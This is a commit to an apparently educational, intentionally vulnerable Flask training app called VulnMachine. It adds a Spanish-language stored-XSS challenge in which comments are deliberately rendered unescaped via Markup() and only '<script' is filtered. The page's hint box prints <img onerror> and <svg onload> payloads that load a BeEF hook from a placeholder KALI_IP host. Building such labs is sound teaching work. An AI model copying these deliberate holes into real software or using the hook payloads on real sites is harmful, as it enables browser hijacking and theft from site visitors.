
After one commit to lorenzoo99/VulnMachine, a Flask app: page /challenge/7/level2 in a window 1280 px wide. The commit adds this page. Shown: the whole page at 93% size. Run offline with Flask 3, Linux system fonts and the light colour scheme; data that the repository does not hold is empty.

Commit message:
Añadir Challenge 7: Stored XSS / BeEF Browser Hook
Nuevo challenge para practicar XSS almacenado y hooking con BeEF desde Kali:
- Nivel 1: foro sin filtro, inyección directa con <script src="beef_hook.js">
- Nivel 2: filtra <script> pero vulnerable a <img onerror> y <svg onload>

Cambios:
- setup_db.py: nueva tabla comments con datos semilla
- app.py: rutas /challenge/7, /7/level1, /7/level2 con Markup() para XSS real
- 3 templates nuevos (challenge7, c7_level1, c7_level2)
- index.html: tarjeta C7 añadida al grid
- base.html: [C7] XSS en el nav
- scoreboard.html: 14 flags / 1400 pts

https://claude.ai/code/session_01W5MYboXqtg5ABCXsShd4Vp

```diff
--- a/app.py
+++ b/app.py
@@ -1,7 +1,8 @@
-from flask import Flask, request, render_template, redirect, url_for, session, g
+from flask import Flask, request, render_template, redirect, url_for, session, g, Markup
 import sqlite3
 import os
 import hashlib
+import re
 
 app = Flask(__name__)
 app.secret_key = 'vuln_machine_secret'
@@ -372,6 +373,79 @@ def c6_level2():
 # ─────────────────────────────────────────────
 # Scoreboard
 # ─────────────────────────────────────────────
+# ═══════════════════════════════════════════════════════════════
+# CHALLENGE 7 – Stored XSS / BeEF Hook
+#   FLAG_7A (Nivel 1 – sin filtro, XSS directo)
+#   FLAG_7B (Nivel 2 – filtro <script> bypasseable con otros vectores)
+# ═══════════════════════════════════════════════════════════════
+
+@app.route('/challenge/7')
+def challenge7():
+    return render_template('challenge7.html')
+
+@app.route('/challenge/7/level1', methods=['GET', 'POST'])
+def c7_level1():
+    error = flag = None
+    if request.method == 'POST':
+        action  = request.form.get('action', '')
+        author  = request.form.get('author', 'Anónimo')[:50]
+        content = request.form.get('content', '')
+        db = sqlite3.connect(DATABASE)
+        if action == 'clear':
+            db.execute("DELETE FROM comments WHERE level=1")
+            db.commit()
+        elif content:
+            db.execute("INSERT INTO comments (level, author, content) VALUES (1,?,?)", (author, content))
+            db.commit()
+        db.close()
+
+    db = sqlite3.connect(DATABASE)
+    rows = db.execute("SELECT author, content, timestamp FROM comments WHERE level=1 ORDER BY id").fetchall()
+    db.close()
+
+    comments = [(r[0], Markup(r[1]), r[2]) for r in rows]
+
+    for _, content, _ in comments:
+        if '<' in str(content):
+            flag = "FLAG{7A_st0red_xss_b33f_h00k}"
+            break
+
+    return render_template('c7_level1.html', comments=comments, error=error, flag=flag)
+
+@app.route('/challenge/7/level2', methods=['GET', 'POST'])
+def c7_level2():
+    error = flag = None
+    if request.method == 'POST':
+        action  = request.form.get('action', '')
+        author  = request.form.get('author', 'Anónimo')[:50]
+        content = request.form.get('content', '')
+        db = sqlite3.connect(DATABASE)
+        if action == 'clear':
+            db.execute("DELETE FROM comments WHERE level=2")
+            db.commit()
+        elif content:
+            if re.search(r'<script', content, re.IGNORECASE):
+                error = "WAF: tag <script> detectado y bloqueado."
+            else:
+                db.execute("INSERT INTO comments (level, author, content) VALUES (2,?,?)", (author, content))
+                db.commit()
+        db.close()
+
+    db = sqlite3.connect(DATABASE)
+    rows = db.execute("SELECT author, content, timestamp FROM comments WHERE level=2 ORDER BY id").fetchall()
+    db.close()
+
+    comments = [(r[0], Markup(r[1]), r[2]) for r in rows]
+
+    bypass_vectors = ['onerror', 'onload', 'onclick', 'onmouseover', '<svg', '<img', '<iframe', 'javascript:']
+    for _, content, _ in comments:
+        lower = str(content).lower()
+        if any(v in lower for v in bypass_vectors):
+            flag = "FLAG{7B_xss_f1lt3r_byp4ss_b33f}"
+            break
+
+    return render_template('c7_level2.html', comments=comments, error=error, flag=flag)
+
 @app.route('/scoreboard')
 def scoreboard():
     flags = {
@@ -387,6 +461,8 @@ def scoreboard():
         "FLAG{5B_l1m1t_param_sqli_bypass}":       "C5 Nivel 2 – LIMIT Param Bypass",
         "FLAG{6A_0rder_by_sqli_c4se_when}":       "C6 Nivel 1 – ORDER BY CASE/WHEN",
         "FLAG{6B_c0l_subquery_m4ster}": "C6 Nivel 2 – Column Subquery Inject",
+        "FLAG{7A_st0red_xss_b33f_h00k}":   "C7 Nivel 1 – Stored XSS / BeEF Hook",
+        "FLAG{7B_xss_f1lt3r_byp4ss_b33f}": "C7 Nivel 2 – XSS Filter Bypass BeEF",
     }
     return render_template('scoreboard.html', flags=flags)
 
--- a/templates/base.html
+++ b/templates/base.html
@@ -601,6 +601,7 @@ footer::before {
     <a href="/challenge/4">[C4]&nbsp;Blind</a>
     <a href="/challenge/5">[C5]&nbsp;Search</a>
     <a href="/challenge/6">[C6]&nbsp;Order</a>
+    <a href="/challenge/7">[C7]&nbsp;XSS</a>
     <a href="/scoreboard">[Score]</a>
   </div>
   <span class="nav-status">● LIVE</span>
--- /dev/null
+++ b/templates/c7_level2.html
@@ -0,0 +1,115 @@
+{% extends "base.html" %}
+{% block title %}C7 Nivel 2 – XSS Filter Bypass{% endblock %}
+{% block content %}
+
+<div class="flex gap-2 mb-2" style="flex-direction:column; align-items:flex-start;">
+  <a href="/challenge/7" class="btn btn-ghost" style="font-size:0.72rem; padding:0.3rem 0.8rem;">← C7 Overview</a>
+  <div class="flex gap-2">
+    <h1 style="font-size:1.4rem;">C7</h1>
+    <span class="badge badge-medium" style="align-self:center;">NIVEL 2 – WAF PARCIAL</span>
+  </div>
+  <h2>Foro Protegido™ – Bypass de Filtro XSS</h2>
+</div>
+
+<div class="level-nav">
+  <a href="/challenge/7/level1">Nivel 1 – Sin filtro</a>
+  <a href="/challenge/7/level2" class="active">Nivel 2 – WAF bypass</a>
+</div>
+
+<div class="alert alert-warn">
+  WAF activo: el tag <strong>&lt;script&gt;</strong> está bloqueado (case-insensitive). Pero hay otros vectores XSS...
+</div>
+
+<div class="grid-2" style="align-items:start;">
+  <div>
+    <div class="card">
+      <div class="url-bar">
+        <span class="method">POST</span>
+        <span class="path">/challenge/7/level2</span>
+      </div>
+      <h2>Dejar un comentario</h2>
+      <form method="POST">
+        <div class="form-group">
+          <label>Nombre</label>
+          <input type="text" name="author" placeholder="Tu nombre" autocomplete="off">
+        </div>
+        <div class="form-group">
+          <label>Comentario</label>
+          <textarea name="content" rows="3" style="width:100%; background:#000; border:1px solid var(--border); color:var(--green); font-family:var(--font-mono); font-size:0.88rem; padding:0.5rem 0.8rem; outline:none; resize:vertical; caret-color:var(--green);" placeholder="&lt;script&gt; bloqueado... ¿qué más existe?"></textarea>
+        </div>
+        <div style="display:flex; gap:0.8rem;">
+          <button type="submit" class="btn btn-primary" style="flex:1;">PUBLICAR</button>
+          <button type="submit" name="action" value="clear" class="btn btn-ghost" style="font-size:0.72rem;">Limpiar todo</button>
+        </div>
+      </form>
+
+      {% if error %}
+      <div class="alert alert-error mt-2">{{ error }}</div>
+      {% endif %}
+
+      {% if flag %}
+      <div class="flag-box mt-2">
+        <div class="flag-label">FLAG CAPTURADA</div>
+        <div class="flag-value">{{ flag }}</div>
+      </div>
+      {% endif %}
+    </div>
+
+    <div class="hint-box mt-2">
+      <div class="hint-title">vectores de bypass para BeEF</div>
+      <p>
+        El filtro bloquea <code>&lt;script</code> pero no otros tags con event handlers.<br><br>
+        <strong style="color:var(--green-dim);">Via &lt;img&gt;:</strong><br>
+        <code>&lt;img src=x onerror="var s=document.createElement('script');s.src='http://KALI_IP:3000/hook.js';document.head.appendChild(s)"&gt;</code><br><br>
+        <strong style="color:var(--green-dim);">Via &lt;svg&gt;:</strong><br>
+        <code>&lt;svg onload="var s=document.createElement('script');s.src='http://KALI_IP:3000/hook.js';document.head.appendChild(s)"&gt;</code>
+      </p>
+    </div>
+  </div>
+
+  <div>
+    <div class="card">
+      <div style="font-size:0.62rem; color:var(--muted); letter-spacing:3px; text-transform:uppercase; margin-bottom:1rem;">
+        comentarios almacenados ({{ comments|length }})
+      </div>
+
+      {% if comments %}
+        {% for author, content, timestamp in comments %}
+        <div style="border:1px solid var(--border); padding:0.7rem 0.9rem; margin-bottom:0.7rem; background:var(--surface);">
+          <div style="display:flex; justify-content:space-between; margin-bottom:0.4rem;">
+            <span style="font-size:0.72rem; color:var(--green-dim); letter-spacing:1px;">{{ author }}</span>
+            <span style="font-size:0.65rem; color:var(--muted);">{{ timestamp }}</span>
+          </div>
+          <div style="font-size:0.82rem; color:var(--text); line-height:1.6; word-break:break-word;">
+            {{ content }}
+          </div>
+        </div>
+        {% endfor %}
+      {% else %}
+        <div style="font-size:0.78rem; color:var(--muted); text-align:center; padding:1rem;">
+          Sin comentarios todavía.<span class="cursor"></span>
+        </div>
+      {% endif %}
+    </div>
+
+    <div class="card mt-2" style="font-size:0.8rem;">
+      <div style="font-size:0.62rem; color:var(--muted); letter-spacing:3px; text-transform:uppercase; margin-bottom:0.8rem;">código fuente (simulado)</div>
+      <pre style="background:#000; padding:0.8rem; overflow:auto; color:var(--text); line-height:1.8; border:1px solid var(--border); font-family:var(--font-mono); font-size:0.75rem;">
+<span style="color:var(--muted)"># Filtra &lt;script&gt; pero no otros vectores</span>
+<span style="color:var(--green-dim)">if</span> re.search(<span style="color:var(--green)">r'&lt;script'</span>,
+              content,
+              re.IGNORECASE):
+    error = <span style="color:var(--green)">"Bloqueado"</span>
+<span style="color:var(--green-dim)">else</span>:
+    <span style="color:var(--muted)"># ⚠ &lt;img onerror&gt;, &lt;svg onload&gt;</span>
+    <span style="color:var(--muted)"># no están filtrados</span>
+    db.execute(INSERT...)
+      </pre>
+      <p style="color:var(--warn); font-size:0.75rem; margin-top:0.6rem;">
+        Filtrar solo <code>&lt;script&gt;</code> es insuficiente — HTML5 tiene decenas de event handlers ejecutables.
+      </p>
+    </div>
+  </div>
+</div>
+
+{% endblock %}
--- a/templates/scoreboard.html
+++ b/templates/scoreboard.html
@@ -5,7 +5,7 @@
 <div class="flex gap-2 mb-2" style="flex-direction:column; align-items:flex-start;">
   <a href="/" class="btn btn-ghost" style="font-size:0.72rem; padding:0.3rem 0.8rem;">← /home</a>
   <h1>SCOREBOARD</h1>
-  <h2>12 flags disponibles — 1200 puntos totales</h2>
+  <h2>14 flags disponibles — 1400 puntos totales</h2>
 </div>
 
 <div class="card mt-2">
@@ -36,11 +36,11 @@
 
 <div style="display:grid; grid-template-columns:1fr 1fr; gap:1.2rem; margin-top:1.2rem;">
   <div class="card" style="text-align:center; padding:1.5rem;">
-    <div style="font-family:var(--font-vt); font-size:3.5rem; color:var(--green); text-shadow:var(--glow); line-height:1;">1200</div>
+    <div style="font-family:var(--font-vt); font-size:3.5rem; color:var(--green); text-shadow:var(--glow); line-height:1;">1400</div>
     <div style="font-size:0.62rem; color:var(--muted); letter-spacing:3px; text-transform:uppercase; margin-top:0.3rem;">Puntos totales</div>
   </div>
   <div class="card" style="text-align:center; padding:1.5rem;">
-    <div style="font-family:var(--font-vt); font-size:3.5rem; color:var(--green); text-shadow:var(--glow); line-height:1;">12</div>
+    <div style="font-family:var(--font-vt); font-size:3.5rem; color:var(--green); text-shadow:var(--glow); line-height:1;">14</div>
     <div style="font-size:0.62rem; color:var(--muted); letter-spacing:3px; text-transform:uppercase; margin-top:0.3rem;">Flags totales</div>
   </div>
 </div>
```
Also changed, not shown: setup_db.py (+21 -1 lines), templates/c7_level1.html (added, +109 -0 lines), templates/challenge7.html (added, +59 -0 lines), templates/index.html (+17 -1 lines).
